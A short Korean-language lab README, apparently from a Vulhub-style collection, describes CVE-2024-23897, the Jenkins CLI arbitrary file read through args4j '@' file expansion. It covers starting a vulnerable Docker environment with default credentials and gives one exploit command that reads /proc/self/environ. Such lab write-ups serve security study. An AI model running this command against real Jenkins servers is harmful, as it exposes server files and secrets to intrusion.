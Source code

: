 # CLI를 이용한 Jenkins 임의 파일 읽기 취약점(CVE-2024-23897)


Jenkins는 오픈소스로 지속적 통합 서비스를 제공하는 도구입니다.(자동화 서버)입니다.
Jenkins에서는 [args4j library](https://github.com/kohsuke/args4j)를 사용하여 CLI 명령을 처리할 때 Jenkins 컨트롤러의 명령 인수와 옵션을 구문 분석합니다. 
이 명령 구문 분석기 @에는 인수의 문자와 파일 경로를 파일 내용(expandAtFiles)로 바꾸는 기능이 있어 공격자가 Jenkins 서버에서 임의의 파일을 읽도록 유도합니다.

Jenkins 버전은 2.441 이고 이전 버전에 모두 영향을 미칩니다.

참고 자료 :
- <https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897>
- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## 취약한 환경 시작
docker-compose.yml 가 존재하는 디렉토리에서

```
docker compose up -d
```
이후
'http://your-ip:8080/' 서버가 시작된 이후에 jenkins 서버에 접속할 수 있습니다. 기본 관리자 사용자 이름과 비밀번호는 'admin'과 'vulhub'입니다.

## 익스플로잇
먼저 'jenkins-cli.jar' 파일을 다운로드 합니다. 'http://localhost:8080/jnlpJars/jenkins-cli.jar'
파일을 읽어 '/pro/self/environ' Jenkins 기본 디렉토리를 가져옵니다. 'JENKINS_HOME=/var/jenkins_home'

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```
<img width="452" alt="1" src="https://github.com/dhsgud/jenkins/assets/61280812/058305eb-ae95-4501-b061-5279f608bdd9">
